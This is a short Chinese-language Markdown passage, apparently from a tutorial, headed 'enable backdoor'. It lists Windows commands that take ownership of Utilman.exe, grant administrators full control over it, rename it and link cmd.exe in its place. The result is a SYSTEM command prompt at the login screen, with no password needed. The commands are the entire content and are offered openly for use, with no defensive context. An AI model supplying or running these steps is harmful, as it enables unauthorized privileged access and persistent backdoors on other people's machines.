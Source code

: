 ### 开启后门 
1. 打开 `C:\Windows\System32\cmd.exe` 依次输入以下命令，依次点击 <kbd>Enter</kbd>
    ```bat{class="line-numbers"}
    cd C:\windows\system32
    takeown /f Utilman.exe /A
    icacls Utilman.exe /grant administrators:F
    rename Utilman.exe Utilman_bak.exe
    mklink Utilman.exe cmd.exe
    ```